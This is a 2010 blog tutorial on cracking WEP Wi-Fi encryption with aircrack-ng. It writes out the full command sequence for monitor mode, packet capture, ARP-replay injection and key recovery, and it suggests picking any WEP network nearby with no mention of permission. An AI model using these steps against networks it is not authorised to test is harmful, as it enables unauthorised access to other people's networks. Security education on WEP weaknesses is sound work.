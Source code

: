 ```yaml
--- 
wordpress_id: 298
author_login: pete
layout: post
comments: []

author: Pete
title: Simple WEP Cracking
published: true
tags: 
- security
- WEP Cracking
- cracking
date: 2010-06-18 18:37:17 +01:00
categories: 
- Systemless
author_email: pgm987@gmail.com
wordpress_url: http://www.nationpigeon.com/?p=298
author_url: http://nationpigeon.com
status: publish
---
```

1 Introduction
2 Implementation
2.1 Action
3 Conclusion
4 References
<h3>1 Introduction</h3>
This tutorial will show you how to crack a depreciated, but still used, wireless encryption algorithm called Wired Equivalent Privacy (WEP).  WEP was introduced in 1997 and was designed to provide the user with a secure connection comparable to that of traditional wired networks.  But sometime in 2001 weaknesses where beginning to show and in 2004 WEP was declared depreciated due to the fact that it was unable to meet its security goals.
<h3>2 Implementation</h3>
This tutorial is written for users of Linux, you may be able to follow along using Microsoft Windows, make sure to check the aircrack-ng website.  (http://www.aircrack-ng)

This tutorial is written with the then current version of aircrack, 1.0.  Download and compile the aircrack tools or use you download manager, search aircrack-ng, it should be easy to do.  Once that is done check it is working by typing &ldquo;aircrack-ng&rdquo; you should have a output that looks something like this:

osaka@Nyu:~$ aircrack-ng

Aircrack-ng 1.0 rc3 &ndash; (C) 2006, 2007, 2008, 2009 Thomas d&rsquo;Otreppe
Original work: Christophe Devine
http://www.aircrack-ng.org
etc ..

There will be four scripts from aircrack-ng that you will be using:

<strong>airmon-ng <start|stop|check> <interface> [channel or frequency]
</strong> Script used for switching the wireless network card to monitor mode

<strong> </strong>

<strong>
<div id="_mcePaste">airodump-ng <options> <interface>[,<interface>,...]</div>
</strong> Script used for WLAN monitoring and capturing network packets

<strong>aireplay-ng <options> <replay interface> </strong>
Script used to generate additional traffic on the wireless network

<strong>aircrack-ng [options <.cap /.ivs file(s)></strong>
Script used to recover the WEP key, or launch a dictionary attack on WPA-PSK using the captured data.

You will need to know some basic Linux networking commands.

<strong>iwconfig [-v] [-a] [-s] [interface]</strong>
This is a standard Linux command it will display the status of the currently active interfaces.  If a single interface is given it will display only that interfaces status.

-v	Be more verbose for some error conditions
-a	Displays all interfaces which are currently available, even if down
-s	Displays a short list (like netstat -i)
<h3>2.1 Action</h3>
To start, we need to reconfigure the network interface to promiscuous mode, or more commonly known as monitoring mode.  Some interfaces do not support this mode, google your card and find this out. This could be a problem if you are having trouble, make sure your card has this feature.  To start your interface in monitor mode simply type:

<strong>airmon-ng start <interface> </strong>

If it worked it will create an alias to your specified interface, we will be using wlan0. To make sure if this has worked you should run the ifconfig command.  If it did work then you will see mon0 in the list of interfaces.

Now that your interface is set up correctly, we can move on to the next step this is to locate a crackable network.  Run the following script and you will have a display of the networks in your area in real-time.

<strong>airodump-ng mon0</strong>

The data being displayed is information about wireless networks in your area, some of the information displayed is - Basic Service Set Identifier (BSSID) &ndash; which is the Media Access Control (MAC) address of the wireless access point (WAP), network channel etc.  We need to know what kind of encryption the network is using, as this is an article on cracking WEP, we should look for any network with the WEP encryption.

Once you find a network with WEP encryption we need to collect the data packets that are on the network to do this run the following command:

<strong>airodump-ng -c <channel> --bssid <BSSID> -w <output-file> mon0
airodump-ng -c 6 --bssid 00:0F:CC:7D:5A:74 -w dataFile mon0</strong>

This will capture the data being transmitted over a network using out interface mon0 on channel six from the wireless access point with the BSSID of 00:0F:CC:7D:5A:74 and write it to a file called data.

-c		Network channel
--bssid		Basic Service Set Identifier MAC Adderess
-w		Write captured packets to file &ldquo;dataFile&rdquo;
mon0		Is the alias to the wlan0 in monitor mode

We will need to collect about 10,000 data packets before we will be able to crack the encryption.  It will take anywhere from 5 &ndash; 30min to get enough packets, this depends on how much the network is being used.  If it has a lot of traffic then more packets will be sent out.

Now if it late at night or there is not a lot of traffic, then we can use the following command to make the wireless access point transmit some packets:

<strong>aireplay-ng -3 -b 00:0F:CC:7D:5A:74 -h 00:14:A5:2F:A7:DE -x 50 wlan0</strong>
-3	This specifies the type of attack, in our case ARP-request replay
-b	MAC address of access point
-h	MAC address of associated client from airodump
-x 50	Limit to sending 50 packets per second
wlan0 Our wireless network interface

Again this could cause problems if your interface dose not support injection. Give google another shout.

Once you have 10,000 &ndash; 20,000 data packets you are ready to give cracking it a shot.  Now you should have a few files created in your current directory from the previous script, these are the files which contain the data packets that you collected, run the following script to get the WEP Encryption Key.

<strong>aircrack-ng dataFile*.cap</strong>

It will take its time and you will see some really cool data displayed on your screen, then once its complete it will give you the key in plain text.
<h3>3 Conclusion</h3>
So as we can see within 10min of good data transmission we are able to gather enough data packets to be able to crack the encryption.  To crack WPA and WPA2 the method is more or less the same, but with a slight difference and more time is required.  Despite  the fact that WEP is a depreciated algorithm it is still used in homes and other places across the world today.

Remember this is for educational purposes and I hold no responsibility for your actions.
<h3>4 References</h3>
<a href="http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy" target="_blank">http://en.wikipedia.org/wiki/Wired_Equivalent_Privacy</a>
Simple wiki article explaining what WEP is.

<a href="http://www.aircrack-ng.org/" target="_blank">http://www.aircrack-ng.org</a>
Lots of nice and useful information about the aircrack-ng package.

<strong><span style="font-weight: normal;">
</span></strong>
